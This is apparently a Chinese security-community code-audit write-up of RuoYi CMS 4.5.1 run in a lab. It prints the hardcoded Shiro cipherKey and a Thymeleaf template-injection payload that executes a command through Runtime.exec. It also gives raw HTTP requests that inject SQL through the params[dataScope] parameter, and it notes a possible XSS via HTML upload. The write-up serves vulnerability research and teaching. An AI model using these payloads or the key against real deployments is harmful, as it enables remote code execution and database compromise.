# 若依CMS 4.5.1代码审计小记-先知社区

> **来源**: https://xz.aliyun.com/news/17681  
> **文章ID**: 17681

---

#### 产品介绍

RuoYi是一个后台管理系统，它主要基于经典技术(Spring Boot、Apache Shiro、MyBatis、Thymeleaf)组合构建而成，主要目的让开发者注重专注业务，降低技术难度，从而节省人力成本，缩短项目周期，提高软件安全质量

#### 环境搭建

产品源码：<https://github.com/yangzongzhuan/RuoYi>



随后启动PHPStudy并新建数据库RY，随后导入数据库文件并更改配置文件application-druid.yml

```
DBName：ry
Username：Ruoyi
Password：Ry@123456
```

​

随后运行RuoYIApplication启动项目

​



随后正常启动并反问若依系统：

​

#### 代码审计

##### Shiro反序列化

获取到源代码之后查看pom.xml文件发现其中引入了Shiro组件

C:\Users\RedTeam\Desktop\RuoYi-4.5.1\pom.xml





随后全局搜索"cipherKey"发现配置文件中硬编码了密钥信息——zSyK5Kp6PZAAjlT+eeNMlg==

C:\Users\RedTeam\Desktop\RuoYi-4.5.1
uoyi-admin\src\main
esources\application.yml



随后发现登录认证中存在rememberMe选项



​

随后查看这里的Login可以看到这里已经来到了Shiro对应的Jar包中，说明这里使用的是Shiro进行的鉴权





在知道Shiro加密密钥和确认Web使用了Shiro进行登录认证鉴权的前提下可以通过漏洞利用工具直接进行利用(备注：Apache Shiro <=1.2.4版本属于密钥硬编码且使用AES-CBC加密模式，在Apache Shiro 1.2.4版本之后则是由用户指定密钥且加密模式更改为了AES-GCM)





##### Thymeleaf模版注入

在获取到源代码之后查看pom.xml文件发现其中引入了thymeleaf组件且版本为2.0.0低版本

C:\Users\RedTeam\Desktop\RuoYi-4.5.1\pom.xml





随后全局搜索"::"来看那些位置可控，随后发现一处可控位置

C:\Users\RedTeam\Desktop\RuoYi-4.5.1
uoyi-admin\src\main\java\com
uoyi\web\controller\demo\controller\DemoFormController.java



紧接着构造相关恶意载荷并进行触发

```
POST /demo/form/localrefresh/task HTTP/1.1
Host: 192.168.204.139:8090
Content-Length: 145
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.204.139:8090
Referer: http://192.168.204.139:8090/demo/form/localrefresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=0f9d7684-4bc6-41ce-b7bb-7d1eea7c48ab
Connection: close

taskName=1&fragment=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cmd.exe /c calc%22).getInputStream()).next()%7d__::.x
```

​





​

除了上面的第三方组件外其实还有其他的组件，比如：Druid、Fastjson、Swagger、Velocity，但是经过审计发现Druid前面由于统一使用Shiro鉴权不存在所谓的未授权访问问题，当前的RuoYI只是做了内嵌且有包裹性的认证防护，另外Fastjson则虽然是在漏洞影响范围内但是全局检索"parse("无可控的解析调用位置，Swagger也是仅做的内嵌不存在未授权访问类的问题，Velocity则是因为虽然引入了对应的版本但是参数不可控导致无法进行利用



##### SQLInjection安全问题

RuoYI CMS使用了Mybatis持久层框架，而在MyBatis中会使用XML或注解来配置和映射原生信息将接口和Java的POJOs(Plain Ordinary Java Object，普通的Java对象)映射成数据库中的记录，所以我们可以通过全局检索"${}"来确定未使用预编译的可疑位置，随后进行参数回溯分析来确定漏洞是否真实存在，简易示例如下：



随后根据id定位到上层的DAO层



随后检索接口的具体调用点有那些位置



随后在根据调用位置向上回溯Controller层，这里以selectDeptList为例



从下面代码中的@RequiresPermissions注解表明接口访问权限，@PostMapping注解表明接口调用方式为POST，@ResponseBody注解表明会将返回值写入http响应



随后我们还需要看一下上层在调用接口的时候是否有做过滤处理——无



随后我们即可确认此处存在SQL注入问题并访问后台找寻功能位置进行抓包操作



可以看到正常抓包是没有上述我们分析到的参数的，但是我们可以进行构造dataScope参数来进行注入操作

```
POST /system/dept/list HTTP/1.1
Host: 192.168.204.139:8090
Content-Length: 40
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.204.139:8090
Referer: http://192.168.204.139:8090/system/dept
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=a49e98d9-1d37-4027-b218-41589e55a845
Connection: close

deptName=&status=0&params%5BdataScope%5D=
```

随后丢到Sqlmap中进行验证







同样可以推导出其余的SQL注入点和载荷，下面仅给出一则：

功能位置：用户管理-用户查询

注入参数：params[dataScope]





请求报文载荷

```
POST /system/user/list HTTP/1.1
Host: 192.168.204.139:8090
Content-Length: 153
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.204.139:8090
Referer: http://192.168.204.139:8090/system/user
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=a49e98d9-1d37-4027-b218-41589e55a845
Connection: close

pageSize=10&pageNum=1&orderByColumn=createTime&isAsc=desc&deptId=&parentId=&loginName=ry&phonenumber=&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&params%5BdataScope%5D=
```

SQL注入验证如下：



##### 文件上传导致XSS

通过全局检索fileupload定位到文件上传通用处理工具类位置：



这里调用FileUploadUtils.upload进行文件上传处理



随后继续跟进来到upload函数中，紧接着在这里调用重载的upload方法来进行文件上传操作



校验文件大小以及白名单校验检查导致无法上传恶意脚本来进行GetShell操作



但是白名单中包含了html文件和pdf文件可以用于进行上传对应类型的文件，如果支持在线解析则可以导致XSS





但是这里很奇怪上传一个html显示设备未就绪



另外RuoYI使用了Swagger-UI，当前的版本不再影响范围之内，但是高版本可以进行进一步核实查看是否可以使用Swagger-UI自身的安全漏洞来打XSS



#### 文末小结

本篇文章主要站在代码审计角度对Ruoyi CMS从三方组件、配置文件、通用漏洞进行了代码审计并在其中融入了代码审计的一些思路和方法供大家一起探讨，当然在JAVA代码审计中也不仅限于上面的几个维度还有业务逻辑层面的问题更为重要尤其是针对与金融行业的企业来说，关于这一部分等后期有空再专门出一个关于业务逻辑层面的代码审计思路和方法~
